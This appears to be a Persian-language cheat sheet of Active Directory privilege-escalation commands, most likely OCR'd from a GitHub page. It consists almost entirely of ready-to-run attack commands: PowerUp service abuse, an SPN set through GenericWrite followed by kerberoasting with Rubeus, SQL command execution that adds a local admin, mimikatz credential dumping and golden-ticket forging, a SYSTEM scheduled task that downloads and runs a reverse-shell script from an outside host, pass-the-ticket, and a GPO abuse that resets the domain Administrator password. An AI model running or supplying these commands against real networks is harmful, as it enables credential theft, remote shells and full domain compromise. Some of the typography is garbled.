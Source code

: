 ### ارتقا دسترسی با سرویس browser

```text
. .\PowerUp.ps1
Invoke-ServiceAbuse -Name ‘browser’ -UserName ‘domain\user1’
```

### ارتقا دسترسی با دسترسی GenericWrite

```text
$pass = ConvertTo-SecureString 'Password123#' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\MASTER USER'), $pass)
Set-DomainObject -Credential $creds USER1 -Clear serviceprincipalname
Set-DomainObject -Credential $creds -Identity USER1 -SET @{serviceprincipalname='none/fluu'}
.\Rubeus.exe kerberoast /domain:<DOMAIN>
```

### ارتقا دسترسی با استفاده از سرویس Sql و ActiveSessions

```text
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/lateral_movement/Invoke-SQLOSCmd.ps1
. .\Heidi.ps1
Invoke-SQLOCmd -Verbose -Command “net localgroup administrators user1 /add” -Instance COMPUTERNAME
```

### دریافت golden ticket با استفاده از mimikatz و scheduled task

```text
1.mimikatz# token::elevate
2.mimikatz# vault::cred /patch
3.mimikatz# lsadump::lsa /patch
4.mimikatz# kerberos::golden /user:Administrator /rc4:<Administrator NTLM(step 3)> /domain:<DOMAIN> /sid:<USER SID> /sids:<Administrator SIDS> /ticket:<OUTPUT TICKET PATH>
5.powercat -l -v -p 443
6.schtasks /create /S DOMAIN /SC Weekly /RU "NT Authority\SYSTEM" /TN "enterprise" /TR "powershell.exe-c 'iex (iwr http://10.10.10.10/reverse.ps1)'”
7.schtasks /run /s DOMAIN /TN "enterprise”
```

### ارتقا دسترسی با استفاده از روش Pass-the-Ticket

```text
1..\Rubeus.exe asktgt /user:<USET>$ /rc4:<NTLM HASH> /ptt
2.klist
```

### ارتقا دسترسی با GPO آسیب پذیر

```text
1..\SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author DOMAIN\<USER> --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" --GPOName "ADDITIONAL DC CONFIGURATION"
```

